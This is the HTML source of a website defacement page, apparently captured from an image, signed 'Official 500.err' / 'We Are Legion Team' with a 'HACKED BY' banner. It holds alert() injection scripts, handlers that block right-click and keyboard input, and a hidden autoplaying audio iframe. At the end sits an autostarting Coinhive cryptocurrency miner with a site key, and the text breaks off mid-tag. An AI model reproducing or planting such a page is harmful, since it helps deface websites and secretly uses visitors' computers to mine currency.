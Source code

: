 <script>
alert("OFFICIAL 500.ERR TEAM"); 
</script>
?<script>
alert(" Jaran Goyang Dulu yah :v"); </script>
<html>
<head>
<title>
We Are Legion Team
</title>
<link rel="icon" type="image/png" href="
https://scontent-sit4-1.xx.fbcdn.net/v/t1.0-9/26229310_236983003509955_7847079674900036077_n.jpg?oh=c1f7676c25e6ad8aa2a9581d4fcef278&oe=5AEC0CCF"/>
<meta name="robots" content="index, follow">
<meta name="description" content=" INDONESIA JAYA !"/>
<meta content='Official 500.err' name='keywords'/>
<meta name="googlebot" content="index,follo­w"/>
<meta name="robots" content="all"/>
<meta name="robots schedule" content="auto"/>
<meta name="distribution" content="global"/>
<base target='_blank'/>
<style>	
a:link { color:#FAF3F3; text-decoration:none; }
a:visited { color:#FAF3F3; text-decoration:none; }
a:hover { color:#760808; text-decoration:none; }
</style>
</head>
<body bgcolor='black' oncontextmenu='return false;' onkeydown='return false;' onmousedown='return false;'>
<center>
<font color='white' size='25'> HACKED BY </font><br><font face="courier new" size='4' color='#00FF00'></­font><br><br><br><br>
<img src="https://scontent-sit4-1.xx.fbcdn.net/v/t1.0-9/26229310_236983003509955_7847079674900036077_n.jpg?oh=c1f7676c25e6ad8aa2a9581d4fcef278&oe=5AEC0CCF"><img><center>
<br><br><br>
<font color='white'>[ </font><font color='white'>WE ARE:</font>
<font size='4'><font color='#00FF00' face='courier new'><marquee width='30%'> Official 500.err <font color='#00FF00'> </marquee></font></font><font style='Lucida Console' color='white'> ]</font>
<br><br><br>
<font color='white' face='lucida console'>[ </­font><font face='lucida console' color='#00FF00'>Illusions of Security</font><font color='white' face='lucida console'> ]</­font><br><br>
<blink><b><span style="color: white;">we're the real ones and we're see you</span></b></blink>
</center><br>

</center><br>
<center><font color='white'>Copyright@ 2018 By <a href=' fb.com/ihulh.wrgwr= '> <blink><b><span style="color: #00FF00;">Official 500.err</span></b></blink> </a></font></center>
</body>
<embed src= autostart="TRUE" loop="TRUE" width="0" height="0" align="CENTER" />
<iframe width="0%" height="0" scrolling="no" frameborder="no" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/326049096&amp;color=%23ff5500&amp;auto_play=true&amp;hide_related=false&amp;show_comments=true&amp;show_user=true&amp;show_reposts=false&amp;show_teaser=true&amp;visual=true"></iframe>
</center><br>
<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner" 
	style="width: 256px; height: 310px"
	data-key="WrUZ3But2tqgr8I5XAFV9q4hg7nCb2YY"
	data-autostart="true"
	data-whitelabel="false"
	data-background="#000000"
	data-text="#eeeeee"
	data-action="#00ff00"
	data-graph="#555555"